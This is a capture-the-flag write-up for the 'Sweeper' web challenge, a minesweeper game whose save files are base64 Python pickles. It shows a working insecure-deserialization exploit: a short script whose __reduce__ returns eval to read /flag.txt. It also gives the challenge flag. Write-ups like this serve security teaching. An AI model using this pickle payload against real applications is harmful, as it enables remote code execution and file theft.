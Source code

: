 # CyberOpen Season II - Sweeper - Web Exploitation

## Challenge Description

A twist on a classic game. Tread lightly while you dig up the flag.

## High-level summary

This custom python implementation of the Windows' classic minesweeper game has a RCE vulnerability through insecure deserialization in the load/save aspect of the web application. The save files are base64 encoded python pickle objects that can be used to obtain RCE.

## Investigation

To solve this challenge, the creators said that we need to complete the minesweeper game normally; however, I have never played it before, so I won't be successful with this approach.

Besides clicking the tiles like you would in any minesweeper game, users are also able to load (upload) and save (download) game states, along with refreshing the game. Since I do not know the format of the game state, the first thing to do is to save or download the current game and analyze it. The save file is base64-encoded, and after decoding the base64 and generating a hexdump of the result, notice that the first 2 bytes is: `0x80 0x04` and contains strings such as: game_id, mines, flagged, etc.

![Alt text](./images/hexdump.PNG "Hexdump")

Command to get the above result: `cat sweeper.save | base64 -d | xxd`

After some research, the magic bytes: `0x80 0x04` indicates that the base64-encoded data is a python pickle object (see below for object/protocol referece... FIX THIS <---). I have never worked with python pickles before, but after so Googling, I found this site: https://davidhamann.de/2020/04/05/exploiting-python-pickle/, which explains how to exploit python pickles via deserialization (apparently the pickle module is not secure). The crux of the exploit relies on the `__reduce__()` class method, where it returns a tuple containing a callable object followed by a tuple of some arguments (this is referred to as the "reduced value"). The is important because "reduced values" are primarily used in object reconstruction, which will allow us to perform remote code execution during the deserialization or unpickling process when the challenge tries to load our malicious save file. Unpickling the decoded save file shows us that it's essentially a giant JSON file:

![Alt tetxt](./images/json.PNG "JSON Object")

### Determining path of exploitation

Looking at the networking section of your browser's development tools (I'm using Google Chrome), you can see that the minesweeper game is using web sockets to communicate between client and server. 

![Alt text](./images/websocket.PNG "Viewing websocket connections")

Since I don't have a public/reachable IP (due to multiple NATs from ISP -> Me), reverse shells or anything of that sort is not a viable option. What we can do however, is create our own json object and use that to load the flag into the game_id. 

![Alt text](./images/game_state.PNG "Viewing game_id in websocket")

From there, we can pickle our custom payload and save it to upload to the game. Once the game reloads, we would be able to look at the websocket traffic and read the flag from the game_id.

![Alt text](./images/flag.PNG "Woohoo!")

We get the flag: `USCG{f1ag5_4r3_a11_m1n3}`

## The Exploit

```python3
import pickle
import base64

class RCE():
    def __reduce__(self):
        return (eval, ("{'game_id' : open('/flag.txt','r').read()}",))

if __name__ == '__main__':
    bad_pickle = pickle.dumps(RCE())
    # print(RCE().__reduce__())
    with open('sweeper.save', 'wb') as file:
        file.write(base64.urlsafe_b64encode(bad_pickle))
```
